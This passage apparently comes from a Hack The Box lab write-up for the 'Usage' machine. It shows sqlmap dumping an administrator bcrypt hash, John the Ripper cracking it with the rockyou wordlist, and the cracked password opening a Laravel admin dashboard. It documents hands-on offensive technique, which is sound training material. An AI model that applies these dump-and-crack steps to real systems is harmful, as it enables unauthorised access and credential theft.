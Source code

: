 ```c
| name          | password                                                     |
+---------------+--------------------------------------------------------------+
| Administrator | $2y$10$ohq2kLpBH/ri.P5wR0P3UOmc24Ydvl9DA9H1S6ooOMgH5xVfUPrL2 |
+---------------+--------------------------------------------------------------+

[16:19:05] [INFO] table 'usage_blog.admin_users' dumped to CSV file '/home/kali/.local/share/sqlmap/output/usage.htb/dump/usage_blog/admin_users.csv'
[16:19:05] [WARNING] HTTP error codes detected during run:
419 (?) - 8895 times, 500 (Internal Server Error) - 601 times
[16:19:05] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/usage.htb'

[*] ending @ 16:19:05 /2024-04-13/
```

## Cracking the Hash

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Usage/files]
└─$ cat hash
$2y$10$ohq2kLpBH/ri.P5wR0P3UOmc24Ydvl9DA9H1S6ooOMgH5xVfUPrL2
```

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Usage/files]
└─$ sudo john hash --wordlist=/usr/share/wordlists/rockyou.txt 
[sudo] password for kali: 
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
whatever1        (?)     
1g 0:00:00:12 DONE (2024-04-13 16:39) 0.08257g/s 133.7p/s 133.7c/s 133.7C/s alexis1..serena
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

| Password  |
| --------- |
| whatever1 |

## Laravel Admin Dashboard

Since we couldn't login as `Administrator`, we tried `admin` and got lucky.

| Username | Password  |
| -------- | --------- |
| admin    | whatever1 |
